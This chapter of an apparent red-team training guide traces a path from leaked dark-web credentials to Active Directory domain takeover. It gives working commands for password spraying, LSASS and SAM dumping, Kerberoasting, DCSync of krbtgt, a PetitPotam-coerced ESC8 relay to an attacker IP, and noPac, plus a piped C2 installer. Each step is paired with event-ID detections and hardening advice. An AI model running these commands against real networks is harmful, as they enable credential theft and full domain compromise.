The dark-web-to-AD kill chain: **T1589.001** (buy/leak creds) → **T1110.004** (credential stuffing) or **T1078** (Valid Accounts) → internal recon (T1018/T1087) → Kerberoasting/DCSync (T1558.003/T1003.006) → Golden/Silver Ticket persistence (T1558.001/.002). The NSA/CISA/ASD advisory confirms AD compromise is devastating and hard to recover from ([NSA PDF](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

**Mitigation gap.** The only platform mitigation for all pre-compromise techniques is **M1056 (Pre-compromise)**: minimize externally available sensitive data. Detection effort focuses on later Initial Access stages (T1566 phishing, T1190 exploitation) because pre-compromise OSINT is largely invisible. This is why Microsoft's dark-web monitoring is a cloud-side signal, not a perimeter control ([T1589](https://attack.mitre.org/techniques/T1589/)).

**Standards cross-walk.** PTES formalizes OSINT as Phase 2 Intelligence Gathering with three postures: Passive (archived data only → T1596), Semi-passive (looks like normal traffic → not attributable real-time), Active (port/vuln scanning → T1595, should be detected) ([PTES](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)). OWASP WSTG-INFO-01 is the web-app OSINT standard; NIST CSF 2.0 `ID.RA-02` (CTI from sharing forums incl. dark web) and SP 800-53 `AU-13(1)` (monitoring open-source information) are the defensive control anchors.

## 12. Required Privileges & Pre-requisites

Most OSINT requires no privileges against the target at all — that is the point. The privilege model matters once you pivot from external recon to in-network AD enumeration.

**Pre-compromise (no target access needed):**
- Breach-DB access: a paid account on DeHashed ($179.99/mo Professional), IntelX, or Snusbase; free HIBP for safe breach-corpus lookups ([byoniq/Redteam-Runbook](https://github.com/byoniq/Redteam-Runbook)).
- Shodan/Censys: API key for bulk queries; `shodan init API_KEY` then `shodan download` to conserve credits.
- Dark-web access: Tor + OPSEC hygiene (Tails/Whonix); observation-only posture, no marketplace registration ([intel-codex SOP](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md)).

**In-network AD enumeration (the CRTP baseline):**
- **Any authenticated domain user** can: list all users/groups/computers via LDAP, query SPNs (Kerberoasting recon), request TGS for any SPN, read AD free-text attributes, run BloodHound `DCOnly` collection, discover trusts. harmj0y's "I Hunt Sys Admins" proves admin rights are NOT needed for `Invoke-UserHunter` ([harmj0y](https://blog.harmj0y.net/penetesting/i-hunt-sysadmins/)).
- **Machine-account quota**: default `ms-DS-MachineAccountQuota=10` lets any user create computer accounts — required for RBCD and noPac.
- **Domain Admin / replication rights** for: DCSync (`DS-Replication-Get-Changes-All`), ntds.dit dump, Golden Ticket (krbtgt hash). DCSync rights are normally only on DCs and Domain/Enterprise Admins per MS-DRSR ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)).
- **Local admin on a target** for: LSASS dump (Mimikatz `sekurlsa::logonpasswords`), SAM dump, lateral movement via psexec/wmiexec.

**Lab pre-requisites (CRTP ADLab):** a domain-joined Windows 10/11 client + Server 2019 DC; RSAT or AD PowerShell module for native cmdlets; .NET 3.5 for Rubeus; a standard domain user account for collection. Verify functional level (gMSAs need 2012 R2; dMSAs need Server 2025).

**Defender view.** The "any authenticated user" baseline is why credential exposure is so dangerous — one leaked standard-user cred is a foothold to full AD recon. Enforce `MachineAccountQuota=0` where feasible, restrict sensitive attributes, and treat every standard account as a Tier-2 asset.

## 13. Lab & Toolchain Setup

A reproducible lab is the difference between learning a technique and fumbling it on an engagement. For CRTP and this chapter's exercises, build a minimal domain and stand up the toolchain once.

**AD lab (Altered Security ADLab pattern).** Two VMs: a Server 2019 DC (`DC01.corp.local`, forest functional level 2016) and a Windows 10/11 domain-joined client. Add 5-10 dummy users, a few SPN service accounts (Kerberoast targets), 2-3 with "Do not require preauth" (AS-REP targets), and a Domain Admin. Snapshot clean state before any attack. Enable Windows Event forwarding of 4768/4769/4771/4776/4662/4742 to test detections.

**Offensive toolchain — install order:**

```bash
# Python AD tools
python3 -m pipx install impacket          # secretsdump, GetUserSPNs, ticketer, psexec, wmiexec
pipx install certipy-ad                    # AD CS ESC1-16
pipx install bloodhound-ce                 # CE Python ingestor (adds bloodhound-ce-python)
pipx install ldeep                         # LDAP enum with cache mode

# Network attack / recon
sudo apt install netexec                   # CrackMapExec successor (nxc)
sudo apt install responder evil-winrm      # LLMNR poison + WinRM shell
pipx install theHarvester                  # OSINT email/subdomain harvest

# C2 (optional for full-chain labs)
curl https://sliver.sh/install | sudo bash # open-source Go C2
```

**C#/.NET tools (run via `execute-assembly` or Evil-WinRM `Invoke-Binary`):** Rubeus, Certify, SharpHound, Seatbelt, SharpDPAPI. GhostPack ships no binaries — get pre-compiled, multi-framework builds from [Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) (nightly .NET 4.0/4.5/4.7, x64/x86/AnyCPU). Note: Cobalt Strike `execute-assembly` only accepts AnyCPU binaries. Review with dnSpyEx before real engagements.

**OSINT/breach tooling:** Shodan CLI (`pipx install shodan; shodan init KEY`), h8mail (`pip3 install h8mail` for breach-credential hunting), SpiderFoot (`docker run -p 5001:5001 spiderfoot/spiderfoot`), recon-ng (`sudo apt install recon-ng`), OnionScan for Tor OPSEC analysis ([nao1215/onionscan](https://github.com/nao1215/onionscan) is the modern v3 rewrite).

**Dark-web lab OPSEC.** Never access dark-web markets from a clearnet identity. Use Tails or Whonix on dedicated hardware, cross-context separation, no personal logins over Tor. Collect evidence as WARC archives with SHA-256 hashing and timestamps ([intel-codex SOP](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md)). Hard stop on any CSAM; observation-only, no marketplace registration.

**Defender lab.** Stand up Defender for Identity sensor on the DC, enable the LSASS ASR rule (`reg add ...Rules /v 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 /t REG_SZ /d 1 /f`), and forward events to Sentinel to test detections against your own attack traffic.

## 14. Enumeration Methodology

Enumeration is where OSINT and AD recon converge: external sources hand you credentials, and internal LDAP queries turn those credentials into attack paths. Follow a posture-aware order: passive → semi-passive → active, then in-network.

**Phase 1 — Passive external (no target contact, T1596/T1590).**
```bash
# Certificate transparency subdomain mining
curl -s "https://crt.sh/?q=%25.targetcorp.com&output=json" | jq '.[].name_value' | sort -u
theHarvester -d targetcorp.com -b google,linkedin,hunter -f emails.html
# Reverse WHOIS for sister domains (WhoXY), RDAP for net blocks
```
Collect emails, subdomains, IP blocks, tech stack from job postings/LinkedIn. This is undetectable to the target ([SpecterOps](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)).

**Phase 2 — Credential correlation (T1589.001/T1597.002).** Cross-reference harvested emails against breach DBs: `h8mail -t targets.txt -c config.ini -o pwned.csv` or DeHashed wildcard `*@targetcorp.com`. Build a password-spray wordlist from patterns (seasonal passwords like `Spring2026!` "are still the answer surprisingly often" per [Redteam-Runbook](https://github.com/byoniq/Redteam-Runbook)). Validate email existence via Microsoft Teams External Access or AADInternals `GetUserRealm` to detect managed vs federated auth ([SUDOROOT](https://medium.com/sud0root/mastering-modern-red-teaming-infrastructure-part-4-advanced-osint-techniques-credential-d2a80851a913)).

**Phase 3 — Active external (T1595, detectable).** Port/service scanning, vuln scanning, dir bruteforce on the subdomains found in Phase 1. Expect to be logged; pad 20% time per PTES.

**Phase 4 — In-network AD enumeration (post-foothold, T1087/T1018/T1069/T1482).** With one standard domain user:
```powershell
# BloodHound DCOnly — lowest footprint, no workstation touch
bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c DCOnly --zip
# Or Windows: SharpHound.exe -c DCOnly
# Targeted recon via PowerView
Get-DomainUser -SPN                # Kerberoast targets
Get-DomainUser -PreauthNotRequired # AS-REP targets
Get-DomainUser -AdminCount         # AdminSDHolder-protected
Get-DomainComputer -UnconstrainedDelegation
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
SPN scanning via `(servicePrincipalName=*sql*)` is near-silent — the attribute is indexed, queries return in under a second, and look like normal Kerberos client activity across the Global Catalog ([ADSecurity.org](https://adsecurity.org/?p=230)). Any authenticated user can run it forest-wide.

**Phase 5 — Graph analysis.** Import SharpHound zip into BloodHound CE; load the [SpecterOps query library](https://github.com/SpecterOps/BloodHoundQueryLibrary). Find shortest paths to Domain Admins, Kerberoastable accounts with high-value group membership, and unconstrained-delegation DCs.

**Defender detection signals.** Kerberoasting → Event 4769 with RC4 etype `0x17` ([DFIR](https://df00tech.com/detections/T1110.004)). AS-REP → 4771 pre-auth failure. DCSync → 4662 with replication access mask `0x113f` from a non-DC account. noPac → 4742 (computer account rename) + 4724 (password reset). Canary objects emit 4662 on read → high-fidelity recon detection ([NSA advisory](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)). Credential stuffing → 4625/4771/4776 with thresholds: 15+ failures across 5+ accounts in 1h = HIGH; any success = CRITICAL.## 15. Reconnaissance & OSINT

Reconnaissance is the first move of every red team engagement and, paradoxically, the place where defenders have the least visibility. MITRE ATT&CK places almost all OSINT in the pre-compromise **Reconnaissance** tactic (TA0043) and **Resource Development** (TA0042), on the `PRE` platform — meaning these techniques are, by design, not detectable on your network ([TA0043](https://attack.mitre.org/tactics/TA0043/)). The defender's lever is **exposure reduction** (mitigation M1056), not detection. This shapes the whole chapter: the earlier you catch a problem (a leaked credential, an exposed VPN, a discoverable password in AD), the cheaper it is to fix.

### OSINT postures and ATT&CK mapping

PTES defines three collection postures that align cleanly with ATT&CK ([PTES Intelligence Gathering](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)):

| Posture | What it looks like | ATT&CK mapping | Detectable in real time? |
|---|---|---|---|
| Passive | Archived third-party data only | T1596 Search Open Technical Databases | No |
| Semi-passive | Looks like normal internet traffic (DNS, metadata) | T1590/T1592 | Not attributable |
| Active | Port/vuln scans, dir bruteforce | T1595 Active Scanning | Yes — should be detected |

Passive/semi-passive is where most red-team OSINT lives. Active scanning is loud and reserved for late-stage validation.

### The OSINT pipeline (attacker view)

SpecterOps codifies a four-phase methodology that remains the practitioner baseline ([SpecterOps OSINT](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)):

1. **Map networks** — reverse WHOIS (WhoXY), certificate transparency (`crt.sh`, Censys `parsed.names: target.com`), DNS Dumpster, Shodan banners, RDAP for net blocks.
2. **Discover contacts** — Hunter.io email harvest, HaveIBeenPwned breach lookups, LinkedIn/Twitter Google dorks (`site:linkedin.com COMPANY`).
3. **Hunt the cloud** — Google dorks (`site:company.com filetype:pdf`) for document metadata, S3/bucket hunting with wordlists.
4. **Automate and graph** — ODIN stores results in SQLite, exports to Neo4j.

A concrete recon stage from a published breach walkthrough ([RedFoxSec](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations)):

```bash
subfinder -d targetcorp.com -silent | httpx -status-code -title -tech-detect -o recon.txt
theHarvester -d targetcorp.com -b google,linkedin,hunter -f emails.txt
curl -s "https://crt.sh/?q=%25.targetcorp.com&output=json" | jq '.[].name_value' | sort -u
```

The TrustedSec OSINT checklist adds the OPSEC step first — VPS/VPN/fake personas before any collection — and emphasizes identifying the target's EDR/AV/SIEM stack from job postings and LinkedIn ([TrustedSec](https://trustedsec.com/blog/upgrade-your-workflow-part-1-building-osint-checklists)). CovertSwarm argues precision campaigns of 10–30 employees beat bulk phishing, with developers and mid-level staff as the highest-value, lowest-awareness targets ([CovertSwarm](https://www.covertswarm.com/post/inside-a-red-team-osint-human-attack-surface)).

### Dark web and breach-data analysis

The bridge from OSINT to dark-web analysis is **T1597 Search Closed Sources**, sub-technique **T1597.002 Purchase Technical Data** — buying breach dumps, stealer logs, and access from criminal markets ([T1597](https://attack.mitre.org/techniques/T1597/)). This is the supply side that feeds the entire access-broker economy.

Three community breach aggregators are the standard red-team recon sources for enumerating exposed corporate credentials: **DeHashed** (10–14B records, wildcard domain search `*@targetcorp.com`), **IntelX** (20B+ records, indexes paste sites, dark web forums, Tor/I2P), and **Snusbase** (14B+ records) ([byoniq/Redteam-Runbook](https://github.com/byoniq/Redteam-Runbook)). `h8mail` is the CLI that wraps them:

```bash
h8mail -t targets.txt -c config.ini -o pwned.csv          # bulk with API config
h8mail -t fcorp.com -q domain -c config.ini --hide        # domain-wide
```

The credential-leak-to-ransomware timeline has compressed to roughly **7 days**: Day 0 personal device infected (Lumma via malvertising), Day 1 log listed on Telegram (~$45 for corporate VPN+SSO creds), Day 2 IAB validates session-cookie access (bypasses MFA), Day 3 IAB lists verified access (~$3,200), Day 7 ransomware deploys (avg demand $2.8M) ([Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). The company's first indication is typically the ransom note.

**Infostealer session cookies bypass MFA entirely** — when an attacker replays a stolen cookie, the target treats it as a continuation of an already-authenticated session, so push/SMS MFA never fires. Only FIDO2/passkeys resist this. Flare's 2026 report: 18.7M logs analyzed, 16% now expose enterprise SSO creds, 79% of enterprise logs contained Microsoft Entra ID credentials ([ransomnews.com](https://ransomnews.com/stealer-logs-explained-2026/)). The canonical real-world narrative is Mandiant's UNC5537/Snowflake disclosure: ~165 customer tenants compromised using credentials stolen from contractor/employee endpoints by Lumma, RedLine, RisePro, Vidar, Raccoon, and MetaStealer — 79.7% of leveraged accounts had prior credential exposure ([Mandiant](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)).

### Defender view: external attack-surface and breach monitoring

Because pre-compromise OSINT is largely undetectable, defense pivots to **exposure monitoring** and **breached-password blocklists**:

- **NIST SP 800-63B-4** (July 2025) mandates verifiers SHALL compare prospective passwords against a blocklist of known compromised passwords, including "passwords obtained from previous breach corpuses" — whole-password comparison, not substrings ([NIST SP 800-63B-4](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)). HIBP is the de-facto data source.
- **NIST SP 800-53 Rev. 5 AU-13(1)** "Use of Automated Tools / Monitoring Open-Source Information" is the closest formal control anchor for dark-web and credential-leak monitoring: build watchlists, ingest into SIEM/SOAR, triage credential exposure → force reset + investigate logins ([SI-4](https://nist-sp-800-53-r5.bsafes.com/docs/3-19-system-and-information-integrity/si-4-system-monitoring/)).
- **Microsoft Entra ID Protection** emits a `leakedCredentials` user-risk detection when valid credentials appear in a known breach — always HIGH risk, validated against the tenant's current hashes ([ID Protection risks](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)). Query it programmatically:

```http
GET https://graph.microsoft.com/v1.0/identityProtection/riskDetections?$filter=riskEventType eq 'leakedCredentials'
Authorization: Bearer <token with IdentityRiskEvent.Read.All>
```

- **Defender for Identity** has a Secure Score posture assessment for on-prem AD accounts whose credentials were leaked on the dark web, and the Defender "Password protection" page (Preview) consolidates leaked-credential risk across AD, Entra ID, and Okta with bulk reset/disable actions ([Defender posture](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts), [Password protection](https://learn.microsoft.com/en-us/defender-for-identity/password-protection)).
- **Microsoft Security Exposure Management + MACE** correlates leaked-credential signals into prioritized attack paths to critical assets, turning a flat breach list into a graph-based remediation workflow ([MACE blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)).

For ransomware leak-site monitoring, community trackers **RansomLook**, **ransomwatch**, and **Ransomware.live** scrape `.onion` extortion pages over Tor every few hours and expose REST/JSON APIs ([RansomLook](https://github.com/RansomLook/RansomLook)). Unit 42's retrospective is the most cited quantitative analysis: 3,998 leak-site posts in 2023 (up 49% from 2022), with the caveat that DLS data undercounts real impact — CL0P claimed 364 orgs but MOVEit hit 2,730+ ([Unit 42](https://unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023/)).

**OnionScan** is the foundational tool for Tor hidden-service OPSEC analysis, detecting deanonymization leaks (Apache mod_status, EXIF metadata, SSH fingerprints) that link dark web sites to operators ([OnionScan](https://github.com/s-rah/OnionScan)). The gl0bal01/intel-codex SOP documents analyst hygiene: Tails/Whonix, cross-context separation, WARC archives with SHA-256 hashing, observation-only posture, CSAM hard-stop protocols ([intel-codex](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md)).

The takeaway: **if the internet knows, the threat actors know** ([BHIS](https://www.blackhillsinfosec.com/osint-for-incident-response-part-1/)). External monitoring of criminal marketplaces for your domain in newly published stealer logs is the only reliable early warning.

---

## 16. Initial Access

Initial Access (TA0001) is where pre-compromise recon becomes a foothold. The two dominant red-team paths from the OSINT/dark-web lens are **valid accounts via leaked credentials** (T1078) and **credential stuffing / spraying** (T1110.004), with phishing (T1566) and external service exploitation (T1190) as the active alternatives.

### Valid accounts from breach data (T1078 / T1586)

ATT&CK T1586 Compromise Accounts covers adversaries leveraging breach dumps and password reuse rather than creating new accounts; LAPSUS$, Scattered Spider, Star Blizzard, and Volt Typhoon are cited ([T1586](https://attack.mitre.org/techniques/T1586/), [T1589.001](https://attack.mitre.org/techniques/T1589/001/)). The SUDOROOT walkthrough documents a full external OSINT-to-spray chain: theHarvester/BridgeKeeper for emails → HIBP/IntelX/LeakCheck for breach creds → AADInternals for email validation → Go365 or Burp Intruder for Entra ID spraying with AWS API Gateway IP rotation ([SUDOROOT](https://medium.com/sud0root/mastering-modern-red-teaming-infrastructure-part-4-advanced-osint-techniques-credential-d2a80851a913)):

```bash
theHarvester -d megabigtech.com -l 300 -b all
bridgekeeper.py --company "Example, Ltd." --format {f}{last}@example.com --depth 10 --output emps
# AADInternals confirms user existence; getUserRealm.srf reveals managed vs federated auth
```

The Haxoris case study shows LinkedIn + leaked-database correlation yielding an email format, a typosquat phishing campaign capturing 260 valid credentials, and an AD CS ESC8 relay chain reaching Domain Admin — plus a physical breach via a fire-equipment-inspector pretext with a hidden RJ45 port behind a TV ([Haxoris](https://haxoris.com/blog-post/red-teaming-case-study)).

### Credential stuffing and spraying (T1110.004)

Credential stuffing replays breach `email:password` pairs at scale; spraying uses one common password against many accounts to avoid lockouts. The detection signal set every defender should know ([df00tech T1110.004](https://df00tech.com/detections/T1110.004)):

| Event | Meaning | Failure code |
|---|---|---|
| 4625 LogonType 3/10 | Logon failure on target host | SubStatus 0xC000006A = wrong password, valid user |
| 4771 | Kerberos pre-auth failure (DC) | 0x18 wrong password, 0x6 invalid account, 0x12 locked |
| 4776 | NTLM validation failure (DC) | 0xC000006A, 0xC0000234 locked |
| 4624 | Success from same source IP | stuffing succeeded — CRITICAL |

Threshold heuristic: 15+ failures across 5+ distinct accounts in 1h = HIGH; any success = CRITICAL. A Splunk SPL pattern for Kerberos spraying on Event 4771 failure 0x18:

```splunk
`wineventlog_security` EventCode=4771 TargetUserName!="$" Status=0x18
| bucket span=5m _time
| stats dc(TargetUserName) AS uniq values(TargetUserName) BY _time, IpAddress
| eventstats avg(uniq) as mu, stdev(uniq) as sd BY IpAddress
| eval isOutlier=if(uniq > 10 and uniq >= mu+sd*3, 1, 0)
| search isOutlier=1
```

### Phishing and AiTM (T1566)

Yunolay documents the OSINT-to-credential-theft pipeline using Gophish (delivery/telemetry) and Evilginx (adversary-in-the-middle MFA bypass via session-cookie theft), mapping to T1566.002 and T1621; the only phishing-resistant mitigation is FIDO2/passkeys ([Yunolay](https://yunolay.com/phishing-initial-access/)). Pretexts: IT password expiry, DocuSign, shared Teams file. Lookalike-domain hygiene includes SPF/DKIM/DMARC warming; `p=none` DMARC means spoofable.

### External service exploitation (T1190)

OSINT-discovered VPN/Exchange/file-transfer appliances are frequent initial-access primitives. Notable CVEs that populate breach databases and dark-web leak sites for years: CVE-2018-13379 (Fortinet SSL-VPN path traversal `/remote/fgt_lang`), CVE-2021-26855 ProxyLogon, CVE-2021-34473 ProxyShell, CVE-2023-34362 MOVEit (Cl0p mass extortion), CVE-2023-4966 Citrix Bleed, CVE-2024-21762 FortiOS (Qilin), CVE-2024-3400 PAN-OS (UTA0218), and CVE-2020-1472 Zerologon. The CISA KEV catalog is the single best OSINT source for triaging which CVEs are actively producing breach data ([CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)).

### Defender view

- **Phishing-resistant MFA (FIDO2/WebAuthn)** — the only control that resists session-cookie replay from stealer logs.
- **Breached-password blocklists** (SP 800-63B-4) and Entra Password Protection's global banned list (built from real spray telemetry, not third-party breach lists; applied via on-prem DC Agent with no cleartext passwords leaving the DC) ([Entra Password Protection](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises)).
- **Force reset + token/session revocation** on credential exposure; Entra `riskyUsers/confirmCompromised` automates this.
- **Patch external-facing appliances**; disable SSL VPN if unused; enforce MFA by default on SaaS (Snowflake's post-UNC5537 change).
- **Account lockout + rate limiting** (SP 800-63B-4: max 100 consecutive failures).

---

## 17. Local Privilege Escalation (Windows)

Once on a host with a low-privilege foothold, local privilege escalation (TA0004) turns a normal user into SYSTEM. The CRTP-relevant paths from the dark-web/credential lens cluster around **abusing misconfigured services, unquoted paths, and credential artifacts** left on the box.

### Quick triage and primitives

WinPEAS is the standard automated checklist; PrintSpoofer or GodPotato exploit **SeImpersonate** (the privilege granted to IIS/SQL service accounts) to get SYSTEM. Unquoted service paths and writable service binaries remain common. The RedFoxSec walkthrough chains WinPEAS → PrintSpoofer (SeImpersonate) → unquoted service paths ([RedFoxSec](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations)).

### Credential artifacts on host (T1552 / T1003.001)

The same infostealer economy that fuels dark-web markets also works locally. Cached credentials are the prize:

- **LSASS memory** — Mimikatz `sekurlsa::logonpasswords` (T1003.001), or the LOLBIN dump avoiding direct LSASS access:
  ```powershell
  rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id lsass.dmp full
  ```
- **Local SAM** — `token::elevate` then `lsadump::sam` (T1003.002).
- **LSA secrets / cached DCC2** — `lsadump::secrets`, `lsadump::cache` (hashcat `-m 2100`).
- **DPAPI master keys** — `sekurlsa::dpapi` or `lsadump::backupkeys` for the domain backup key.
- **Discoverable passwords in AD attributes** — Microsoft's Aug 2025 AI detection found 40,000+ exposed credentials in `description`, `info`, `adminComment` across 2,500 tenants; these attributes are readable by any authenticated user and not monitored by default ([doormat blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)).

### Defender view

- **Block credential stealing from LSASS** ASR rule (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) blocks process access to LSASS memory, protecting against Mimikatz/sekurlsa, ProcDump, comsvcs MiniDump, nanodump. Supports Block or Audit only. Registry:
  ```powershell
  reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules" /v "9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2" /t REG_SZ /d "1" /f
  ```
  ([ASR reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide))
- **Credential Guard / LSA Protected Process Light (RunAsPPL)** — blocks sekurlsa PT methods on Win10+/Server 2016+; if enabled, the LSASS ASR rule is redundant. LSA Protection needs `mimidrv.sys` bypass (`!processprotect /process:lsass.exe /remove`).
- **Sysmon EID 10** GrantedAccess `0x1410`/`0x143a` on `lsass.exe` — high-fidelity LSASS-access detection.
- **Restrict service permissions**, quote service paths, require signed drivers.
- **Remove discoverable passwords from AD free-text attributes** — the Secure Score recommendation; rotate and avoid storing hints in `description`/`info`.

---

## 18. Domain Privilege Escalation

Domain privilege escalation is where a low-priv domain user becomes Domain Admin. The NSA/CISA/ASD Five-Eyes advisory (Sept 2024) is the current authoritative baseline and ties dark-web credential exposure directly to AD takeover ([NSA AD advisory](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)). The dark-web-to-AD kill chain: T1589.001 (buy/leak creds) → T1110.004 or T1078 → internal recon → Kerberoasting/DCSync → Golden/Silver Ticket persistence.

### Kerberoasting (T1558.003)

Anyone with a TGT can request a TGS for any SPN; RC4-encrypted (etype 0x17) tickets are offline-crackable. Rubeus opsec mode filters AES-enabled accounts via `tgtdeleg` (no LSASS touch):

```bash
Rubeus.exe kerberoast /rc4opsec /nowrap
hashcat -m 13100 kerb.txt rockyou.txt          # RC4-HMAC
```

Impacket equivalent: `GetUserSPNs.py DOMAIN/user:pass -dc-ip DC -request`. Detection: **Event 4769** with ticket encryption type `0x17` (RC4) and anomalous TGS volume; Defender for Identity alert 2410 ([DfI credential alerts](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Mitigation: **gMSAs** (120-char auto-rotated) or **dMSAs** (Windows Server 2025, secret stored only on DC, device-bound); disable RC4 (disabled by default in Win11 24H2/Server 2025; Beyond RC4 Phase 3 enforcement via CVE-2026-20833 mid-2026) ([MS Kerberoasting guidance](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/)).

### AS-REP Roasting (T1558.004)

Targets accounts with "Do not require Kerberos preauthentication" UAC flag. `Rubeus.exe asreproast /format:hashcat /outfile:h.txt`; crack `-m 18200`. Detection: Event 4771 (pre-auth failed, 0x1f) for requested accounts; DfI alert 2412.

### DCSync (T1003.006)

Abuses MS-DRSR `IDL_DRSGetNCChanges` replication; requires `DS-Replication-Get-Changes-All` control access right, normally granted only to DCs and Domain Admins ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)).

```bash
mimikatz "lsadump::dcsync /domain:corp.local /user:krbtgt" exit
# or Impacket
secretsdump.py DOMAIN/user:pass@DC_IP -just-dc-user krbtgt
```

Detection: **Event 4662** (Directory Service Access) with replication access mask `0x113f` from a non-DC account; DfI alert 2006. Secure Score assessment "Remove non-admin accounts with DCSync permissions" targets this.

### AD CS abuse (ESC1–ESC16)

Certify/Certify 2.0 (ESC9–16 added Aug 2025) and Certipy enumerate and abuse AD CS misconfigs. ESC8 (NTLM relay to HTTP web enrollment without EPA) is the near-instant domain-takeover primitive when chained with PetitPotam:

```bash
# Terminal 1: relay
ntlmrelayx.py -t http://CA/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# Terminal 2: coerce DC
python3 PetitPotam.py -u user -p pass <attacker_ip> <dc_fqdn>
# Terminal 3: get DC hash as Administrator
certipy auth -pfx dc.pfx -dc-ip <DC>
```

Detection: certificate enrollment **Event 4886/4887** on the CA; LDAP writes to `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` (Event 5136) for RBCD. Mitigation: EPA on AD CS web enrollment, enforce LDAP signing + channel binding, `MachineAccountQuota=0`.

### noPac (CVE-2021-42278 + CVE-2021-42287)

Any standard domain user becomes Domain Admin in seconds on unpatched DCs. CVE-2021-42278 (sAMAccountName spoofing) + CVE-2021-42287 (KDC PAC confusion). `noPac.exe -domain htb.local -user user -pass "Pwd!" /dc dc /mAccount demo123 /service cifs /ptt` ([cube0x0/noPac](https://github.com/cube0x0/noPac)). Detection: Event 4742 (computer account renamed to match a DC name) and 4724 (password reset). Patches: KB5008102, KB5008380, KB5008602.

### Kerberos delegation abuse

Unconstrained delegation on DCs plus the MS-RPRN printer bug breaks the AD forest-as-security-boundary claim — a single compromised DC can compromise a trusting foreign forest ([SpecterOps forest trusts](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/)). RBCD abuse: any domain user can create a computer account (MachineAccountQuota) and plant `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` via NTLM relay to LDAP ([Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)). Mitigation: mark privileged computer accounts `AccountNotDelegated:$true`; disable/uninstall Print Spooler on DCs.

### Defender posture

- **Tiered Enterprise Access Model** (Tier 0 = DCs/AD CS CA/AD FS/Entra Connect/backups), LAPS, Protected Users group.
- **Reset krbtgt twice ≥10 hours apart** to invalidate Golden Tickets (10h aligns with max ticket lifetime) ([krbtgt reset](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password)); Microsoft recommends twice every 12 months.
- **Disable Print Spooler + SMBv1 on DCs**; enforce SMB signing.
- **PingCastle / Purple Knight** for posture assessment; canary objects emit Event 4662 on read → high-fidelity detection of Kerberoasting/DCSync/SharpHound enumeration ([PingCastle](https://www.pingcastle.com/), [Purple Knight](https://www.purple-knight.com/)).

---

## 19. Credential Access & Dumping

Credential access (TA0006) is the center of gravity for AD red teaming. The Microsoft Digital Crimes Unit disrupts the infostealer C2 that monetizes stolen credentials on dark-web markets — in June 2026 they partnered with Europol to disrupt StealC and Amadey, shutting down 200+ malicious C2 domains ([DCU StealC/Amadey](https://www.microsoft.com/en-us/security/blog/2026/06/24/stealc-and-amadey-breaking-down-infostealers-and-the-cybercrime-services-that-deliver-them/)). This is the supply side that Entra ID Protection's `leakedCredentials` detection catches downstream.

### The credential dumping toolkit

| Tool | What it dumps | MITRE | Detection signal |
|---|---|---|---|
| Mimikatz `sekurlsa::logonpasswords` | LSASS memory (NTLM, cleartext if wdigest, tickets, DPAPI) | T1003.001 | LSASS access by unusual process; Sysmon EID 10 0x1410 |
| Mimikatz `lsadump::dcsync` | All hashes via MS-DRSR replication | T1003.006 | Event 4662 0x113f from non-DC |
| Mimikatz `lsadump::sam` | Local SAM (after `token::elevate`) | T1003.002 | SAM hive access |
